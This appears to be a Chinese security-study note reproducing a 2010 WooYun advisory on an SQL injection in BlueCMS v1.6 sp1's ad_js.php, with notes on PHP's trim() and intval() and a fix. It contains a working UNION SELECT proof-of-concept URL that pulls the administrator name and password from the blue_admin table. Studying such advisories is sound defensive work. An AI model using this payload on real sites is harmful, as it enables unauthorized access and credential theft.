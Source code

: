 BlueCMS v1.6 sp1 ad_js.php SQL注入漏
===

## 漏洞信息

下面的漏洞信息表格引用自[https://wooyun.shuimugan.com/](https://wooyun.shuimugan.com/bug/view?bug_no=141).

| 类型 | 内容 | 
|---|---|
| 编号 | 141 |
| Url | [http://www.wooyun.org/bug.php?action=view&id=141](http://www.wooyun.org/bug.php?action=view&id=141) |
| 漏洞状态 | 未联系到厂商或者厂商积极忽略 |
| 漏洞标题 | BlueCMS v1.6 sp1 ad_js.php SQL注入漏洞 |
| 漏洞类型 | [SQL注射漏洞](https://wooyun.shuimugan.com/bug/index?BugSearch%5Bbug_type%5D=SQL%E6%B3%A8%E5%B0%84%E6%BC%8F%E6%B4%9E) |
| 厂商 | [BlueCMS](https://wooyun.shuimugan.com/bug/index?BugSearch%5Bvendor%5D=BlueCMS) |
| 白帽子 | [CnCxzSec(衰仔)](https://wooyun.shuimugan.com/bug/index?BugSearch%5Bauthor%5D=CnCxzSec%28%E8%A1%B0%E4%BB%94%29) |
| 提交日期 | 2010-07-30 19:49:00 |
| 公开日期 | 2010-07-30 21:52:00 |
| 修复时间 | (not set) |
| 确认时间 | 0000-00-00 00:00:00 |
| Confirm Spend | -1 |
| 漏洞标签 | php+数字类型注射 注射技巧 BlueCMS |
| 关注数 | 0 |
| 收藏数 | 0 |
| 白帽评级 | 高 |
| 白帽自评rank | 20 |
| 厂商评级 |  |
| 厂商评rank | 10 |
| 漏洞简介 | BlueCMS v1.6 sp1 某页面SQL注入漏洞 |
| 漏洞细节 | 缺陷文件：ad_js.php
| 漏洞成因 | 12: `$ad_id = !empty($_GET['ad_id']) ? trim($_GET['ad_id']) : '';` 根目录下其他他文件都做了很好的过滤，对数字型变量几乎都用了intval()做限制，唯独漏了这个文件，居然只是用了trim()去除头尾空格  19: `$ad = $db->getone("SELECT * FROM ".table('ad')." WHERE ad_id =".$ad_id); ` //直接代入查询。。汗。 | 
|POC | `http://localhost/cms/ad_js.php?ad_id=1%20and%201=2%20union%20select%201,2,3,4,5,concat(admin_name,0x7C0D0A,pwd),concat(admin_name,0x7C0D0A,pwd)%20from%20blue_admin%20where%20admin_id=1`  右键查看源代码得到返回数据。|
| 修复方案 | `$ad_id = !empty($_GET['ad_id']) ? intval($_GET['ad_id']) : '';`  |
| 状态信息 | 2010-07-30： 积极联系厂商并且等待厂商认领中，细节不对外公开 2010-07-30: 厂商已经主动忽略漏洞，细节向公众公开 |
| 厂商回复 | (not set) |
| 回应信息 | 未能联系到厂商或者厂商积极拒绝漏洞Rank：10 (WooYun评价) |

## 笔记：

1. trim( )函数：移除字符串两侧的空白字符或其他预定义字符

### 语法

trim(_string_,_charlist_)

| 参数 | 描述 |
|---|---|
| _string_ | 必需。规定要检查的字符串。 |
| _charlist_ | 可选。规定从字符串中删除哪些字符。如果被省略，则移除以下所有字符 |

*   "\0" - NULL
*   "\t" - 制表符
*   "\n" - 换行
*   "\x0B" - 垂直制表符
*   "\r" - 回车
*   " " - 空格

2. intval()函数：获取变量的整数值

### 语法

```
int intval ( mixed $var [, int $base = 10 ] )

```
通过使用指定的进制 base 转换（默认是十进制），返回变量 var 的 integer 数值。 intval() 不能用于 object，否则会产生 E_NOTICE 错误并返回 1。

| 参数 | 描述 |
|--|--|
| _var_ | 要转换成 integer 的数量值 |
| _base_  | 转化所使用的进制。|

> Note:
> 
> 如果 `base` 是 0，通过检测 `var` 的格式来决定使用的进制：
> 
> *   如果字符串包括了 "0x" (或 "0X") 的前缀，使用 16 进制 (hex)；否则，
> *   如果字符串以 "0" 开始，使用 8 进制(octal)；否则，
> *   将使用 10 进制 (decimal)。


### 验证漏洞

`'`验证

![单引号判断](./%E5%8D%95%E5%BC%95%E5%8F%B7%E5%88%A4%E6%96%AD.png)

### 验证POC

访问POC

![验证POC](./%E9%AA%8C%E8%AF%81POC.png)

### 漏洞修复

trim()函数修改为intval()函数，重新访问POC

![修复](./%E4%BF%AE%E5%A4%8D.png)

### 其他漏洞



